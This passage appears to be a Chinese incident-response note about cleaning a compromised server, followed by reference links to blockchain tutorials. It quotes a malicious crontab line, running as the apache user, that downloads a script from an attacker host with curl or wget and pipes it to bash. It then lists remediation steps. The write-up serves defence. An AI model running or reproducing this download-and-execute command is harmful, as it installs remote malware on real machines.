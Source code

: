     ```bash
    # sudo crontab -u apache -l
    30 23 * * * (curl -s http://w.apacheorg.top:1234/xmss||wget -q -O - http://w.apacheorg.top:1234/xmss )|bash -sh
    ```
- 上述脚本会从`http://w.apacheorg.top:1234/xmss`下载一个脚本

<details><summary>脚本内容</summary></details>
- 解决
    - 杀掉相应进程，杀掉所有用户进程可以使用`pkill -u apache`
    - 清除文件
    - 删除定时任务
    - 修复ShowDoc等应用漏洞



--- 

参考文章

[^1]: https://www.ruanyifeng.com/blog/2017/12/blockchain-tutorial.html (区块链入门教程)
[^2]: http://www.ruanyifeng.com/blog/2018/01/bitcoin-tutorial.html (比特币入门教程)
[^3]: https://www.infoq.cn/article/2018/09/how-choose-blockchain-framework
[^4]: https://www.codenong.com/cs106604338/ (基于java开发一套完整的区块链系统详细教程)
[^5]: http://www.wabi.com/news/24364.html

